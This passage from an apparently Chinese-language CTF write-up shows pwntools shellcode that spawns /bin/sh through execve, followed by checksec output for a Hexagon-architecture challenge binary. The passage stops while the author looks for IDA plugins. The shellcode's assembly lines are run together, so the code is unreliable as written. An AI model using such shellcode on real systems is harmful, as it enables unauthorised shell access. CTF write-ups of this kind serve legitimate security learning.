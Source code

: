   
  
```
shellcode=asm(
'''mov al,59add rdi,8syscall'''
)+b'/bin/sh\x00'

```  
  
  
  
然后正常打即可  
  
  
![image-20250211164358817](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lcZl9mlzzaqOJLegpYNVd7et3WVTaYEUjcGxUrE3YtfoqWL89ruwsLTg/640?wx_fmt=png&from=appmsg "")  
##   
## hexagon  
  
这个直接是两眼一黑  
  
  
日常检查一下  
  
  
```
llq@llq-virtual-machine:~$ checksec main
[!] Could not populate PLT: AttributeError: arch ('em_qdsp6') must be one of ['aarch64', 'alpha', 'amd64', 'arm', 'avr', 'cris', 'i386', 'ia64', 'm68k', 'mips', 'mips64', 'msp430', 'none', 'powerpc', 'powerpc64', 'riscv32', 'riscv64', 's390', 'sparc', 'sparc64', 'thumb', 'vax']
[*] '/home/llq/main'
    Arch:       em_qdsp6-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x10000)
    Stripped:   No
llq@llq-virtual-machine:~$

```  
  
  
  
不认识的架构，直接搜一下  
  
  
![image-20250211183321012](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lc4v2icGZnPhwOUOHLtz19O7aZwnBDZBVgbV0hHyyWb2rAaibgVIHnVdKA/640?wx_fmt=png&from=appmsg "")  
  
![image-20250211183301653](https://mmbiz.qpic.cn/sz_mmbiz_png/1UG7KPNHN8FwPmAUPj9VFC18uibWbG9lcBTLicm2b58X0LwVSC0aS2WHsNbsZsQxdjT9pBDzBOhQYib16H40AlklQ/640?wx_fmt=png&from=appmsg "")  
  
  
大概扫一眼，看见了用于ida，想着要下一下插件。  
  
### 方法1  
  
这里我找了几篇文章看了看  
  
文章1  
  
文章2  
  